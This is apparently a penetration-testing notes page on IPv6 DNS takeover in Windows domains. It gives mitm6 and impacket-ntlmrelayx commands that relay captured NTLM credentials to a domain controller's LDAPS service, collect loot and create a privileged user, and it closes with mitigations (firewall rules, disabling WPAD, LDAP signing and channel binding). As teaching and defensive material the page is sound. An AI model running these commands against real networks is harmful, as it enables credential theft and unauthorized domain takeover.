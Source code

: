 # IPv6 DNS Takeover

This attack takes advantage of machines utilizing IPv4 while still having IPv6 active in their network adapter properties. When a machine is configured in this way, one question comes to mind. Who is the DNS for IPv6? Most of the time, nobody.

With this misconfiguration, an attacker can listen for any incoming IPv6 traffic, declaring themselves as the DNS for IPv6. Through this process, an attacker can gain authentication to the Domain Controller with LDAP (Lightweight Directory Access Protocol) or SMB (Server Message Block).





## IPv6 DNS Takeover attack

For the installation of the tool follow this steps:

{% code title="mitm6 installation" overflow="wrap" %}
```bash
cd /opt
sudo git clone https://github.com/dirkjanm/mitm6
sudo pipx install .
```
{% endcode %}

{% code title="Kali installation cmd" %}
```bash
sudo apt install mitm6
```
{% endcode %}

### Setup and run Ntlmrelayx

Before starting `mitm6` , we have to configure and run the relay which will attempt to access the DC's LDAP service with the capted credentials.

{% code overflow="wrap" %}
```bash
impacket-ntlmrelayx -6 -t ldaps://DC_IP -wh FAKE.DOMAIN.local -l lootme

# -6: Listen on both IPv6 and IPv4
# -t: Target to relay the credentials to, can be an IP, hostname or URL like domain\username@host:port
# -l: Loot directory in which gathered loot such as SAM dumps will be storedbash (in our local machine)
# -wh: Enable serving a WPAD file for Proxy Authentication attack, setting the proxy host to the one supplied.
```
{% endcode %}

### Run mitm6 tool

Once we have started the relay, we can start the mitm6 tool which simulate a Fake IPv6 DNS.

```bash
sudo mitm6 -d DOMAIN
```



### Check the results

If the attack will successfull we would have our loot directory with all data.

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>



### User creations

When a victim user login into his machine, the tool `mitm6` will try to create a user with more privilege.

For the information check the output of the tool when a user loggins.

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>



## Mitigation

### Limits the IPv6 by rule

Disable IPv6 entirely may have unwanted side effects. Setting the following predefined rules to Block instead of Allow prevents the attack from working:

* (Inbound) Core Networking - **Dynamic Host Configuration Protocol for IPv6** (**DHCPV6-In**)
* (Inbound) Core Networking - **Router Advertisement** (**ICMPv6-In**)
* (Outbound) Core Networking - **Dynamic Host Configuration Protocol for IPv6** (**DHCPV6 - Out**)

### Disable WPAD

If WPAD is not in use internally, **disable it** via Group Policy and by disabling the **WinHttpAutoProxySvc service**

### Make LDAP secure by attack

Relaying to LDAP and LDAPS can only be mitigated by **enabling** both **LDAP signing** and LDAP **channel binding**.





